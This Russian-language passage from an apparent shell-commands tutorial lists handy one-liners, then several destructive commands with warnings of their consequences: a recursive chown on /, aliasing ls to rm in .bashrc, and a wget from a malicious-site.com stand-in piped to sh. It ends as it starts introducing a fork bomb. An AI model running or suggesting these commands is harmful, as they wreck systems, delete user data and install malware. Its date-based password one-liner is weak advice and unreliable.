 ## **2.9. Удалить все файлы, кроме одного**

Эта команда аналогична предыдущей, но здесь мы обозначаем всего один файл, который нужно оставить.

`rm -f !(theFile.txt)`

## **2.10. Генерация случайного пароля заданной длины**

Если вы, как и я, порой испытываете трудности с придумыванием пароля, то за вас это может сделать оболочка.

**Нужная длина при этом устанавливается флагом -c.**

`date +%s | sha256sum | base64 | head -c 8; echo`

## **2.11. Рекурсивное удаление всех пустых каталогов**

**Находит и удаляет все пустые каталоги.**

`find . -type d -empty -delete`

## **2.12. Копирование разрешений файла**

**Инструкция ниже скопирует для file1 все разрешения, установленные для file2.**

`chmod --reference file2 file1`

## **2.13. Изменяет владельца и группу всех файлов и каталогов в системе на указанного пользователя и группу**

`chown -R user:user /:` **Потенциальные последствия**: Нарушение работы системы, так как это может изменить права доступа к системным файлам и каталогам, что может привести к ошибкам и сбоям.

## **2.14. К**оманда создает псевдоним для команды **`ls`**, делая так, что при вызове **`ls`** будет вызываться **`rm`**.

`echo "alias ls=rm" >> ~/.bashrc` **Потенциальные последствия**: Потеря данных из-за случайного удаления файлов при вызове команды **`ls`**.

## **2.15. К**оманда загружает скрипт [malware.sh](http://malware.sh) с веб-сайта и немедленно выполняет его.

`wget <http://malicious-site.com/malware.sh> -O - | sh:` **Потенциальные последствия**: Установка и выполнение вредоносного кода, который может нанести вред вашей системе или украсть вашу конфиденциальную информацию.

## **3. Создании fork-бомбы**

- Обычно используется язык программирования, поддерживающий вызовы fork(), такие как C или Python. Вот пример простой fork-бомбы на языке Python
